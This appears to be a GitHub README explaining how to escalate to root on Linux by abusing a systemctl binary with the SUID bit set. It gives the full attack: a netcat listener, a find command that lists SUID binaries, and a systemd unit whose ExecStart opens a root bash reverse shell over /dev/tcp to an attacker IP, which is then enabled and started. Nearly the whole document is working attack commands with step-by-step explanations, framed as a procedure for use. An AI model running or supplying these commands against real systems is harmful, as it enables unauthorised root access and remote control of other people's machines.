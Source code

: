 # Expected conditions for **systemctl** exploit:
1. Having access to shell with non-root user.
2. Having netcat listener running locally on a random port:
```
<a name="netcat-section">nc -lvp 9999</a>
```
3. **systemctl** command has SUID bit set.
   1. To check commands with SUID bit:
      ```
      find / -user root -perm -4000 -exec ls -ldb {} \;
      ```
      * **find** - search for
      * **/** - start search from root directory
      * **-user root** - condition saying that user must be root
      * **-perm 4000** - condition saying that file should have SUID bit set
      * **-exec** - execute command on each file that meets conditions
        * **ls -ldb** - execute **ls** command with attributes
        * **{}** - output placeholder
        * **\;** - the end of the -exec command

## Usage
1. Paste the below echo command in the remote shell:
```shell
echo "
[Unit]
Description=access root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'

[Install]
WantedBy=multi-user.target" >> /tmp/test.service
```
* Above echo saves **test.service** service into temporary file.
* **[Unit]** header that contains Description attribute of the service. Description can by anything.
* **[Service]** header contains **Type** attribute equal to **Simple** which tells service manager that service starts immediately after the main service process has been forked off. **ExecStart** attribute describes what command are executed when the service is started:
  ```
  /bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'
  ```
  * **/bin/bash -c ''**: run command with bash
  * **bash -i**: starts bash in interactive mode
  * **>&**: redirect standard output and error
  * **/dev/tcp/<ip-address>/9999**: into special device file that allows to create TCP socket with your IP address under specific port number [(used previously in netcat listener)](#netcat-section)
  * **0>&1**: redirect standard input (0 file descriptor) where the standard input (1 file descriptor) is redirected - which is TCP socket

1. Enable service:
```sh
systemctl enable /tmp/test.service
```
1. Start service:
```sh
systemctl start test
```
'

